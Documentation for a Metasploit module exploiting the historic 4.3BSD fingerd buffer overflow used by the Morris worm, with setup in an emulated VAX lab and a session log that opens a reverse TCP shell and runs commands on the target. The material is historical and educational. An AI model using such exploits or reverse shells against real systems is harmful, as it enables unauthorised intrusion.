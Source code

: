## Introduction

This module exploits a stack buffer overflow in `fingerd` on 4.3BSD.
This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

## Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Targets

```
Id  Name
--  ----
0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85
```

## Options

**RPORT**

Set this to the target port. The default is 79 for `fingerd`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a BSD VAX payload. Currently only
`bsd/vax/shell_reverse_tcp` is supported.

## Usage

```
msf5 exploit(bsd/finger/morris_fingerd_bof) > options

Module options (exploit/bsd/finger/morris_fingerd_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  127.0.0.1        yes       The target address range or CIDR identifier
   RPORT   79               yes       The target port (TCP)


Payload options (bsd/vax/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85


msf5 exploit(bsd/finger/morris_fingerd_bof) > run

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] 127.0.0.1:79 - Connecting to fingerd
[*] 127.0.0.1:79 - Sending 533-byte buffer
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.2:51992) at 2018-09-25 10:14:15 -0500

whoami
nobody
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
